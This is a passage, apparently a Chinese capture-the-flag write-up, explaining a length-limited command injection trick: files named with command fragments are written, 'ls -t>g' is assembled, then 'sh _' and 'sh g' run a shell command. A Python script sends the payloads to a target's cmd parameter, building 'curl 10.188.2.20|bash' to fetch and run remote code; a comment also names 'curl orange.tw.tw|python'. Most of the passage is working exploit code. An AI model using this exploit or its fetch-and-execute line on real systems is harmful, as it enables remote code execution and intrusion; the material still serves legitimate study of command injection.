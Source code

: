 ```php
sh _
sh g
```

按照这个顺序通过cmd传入，前一部分是将`ls -t>g`写入`_`，接着一顿操作，执行`sh _`，会将文件名按写入时间顺序写入`g文件`，然后`sh g`执行bash指令，getshell。

脚本实现

```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 

    # generate `curl orange.tw.tw|python`
    # generate `curl 10.188.2.20|bash` 
    '>sh', 
    '>ba\\', 
    '>\|\\',
    '>2\\',
    '>16\\', 
    '>0.\\',
    '>25\\', 
    '>5.\\', 
    '>1\\',
    '>6.\\',
    '>10\\',
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # exec
    'sh _', 
    'sh g', 
]



r = requests.get('http://117.50.3.97:8001/?reset=1')
for i in payload:
    r = requests.get('http://117.50.3.97:8001/?cmd=' + quote(i) )
    print i
    sleep(0.2)
    
```
